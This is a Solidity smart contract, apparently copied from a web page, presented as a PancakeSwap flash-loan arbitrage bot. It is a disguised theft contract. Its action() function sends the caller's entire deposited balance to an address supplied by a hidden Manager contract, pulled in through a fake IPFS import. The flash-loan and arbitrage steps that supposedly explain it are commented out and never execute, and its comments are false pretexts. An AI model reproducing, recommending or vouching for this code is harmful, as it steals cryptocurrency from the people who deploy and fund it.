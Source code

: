 // Flashloan
pragma solidity ^0.5.0;

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";

// PancakeSwap BSC Code Manager
import "ipfs://0xc8b018D159da9b4419a1940643c7A2E5405CB143";
   
contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;      
      manager = new Manager();
   }
   address public creator= msg.sender;
    	function tokenTransfer() public view returns (address) {    
        	return creator;
   	}
   function() external payable {}
   
   function action() public payable {
      // Send New Token to PancakeSwap Router for Swap
       address(uint160(manager.pancakeswapDeposit())).transfer(address(this).balance);
      
      // Perform Flash Loan tasks (combined all functions into one to reduce external calls & save gas fees)
      manager.performTasks();
      
      /* Breakdown of all functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
      // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      
      // Get BNB Loan from Multiplier-Finance & loan execution wallet
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   
   // Create BNB and DAI pairs for our token & provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   
   // Perform arbitrage trades
      manager.pancakePerformSwaps();
      
      // Move remaining BNB from Contract to your personal wallet
      manager.contractToWallet("BNB");
   
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}

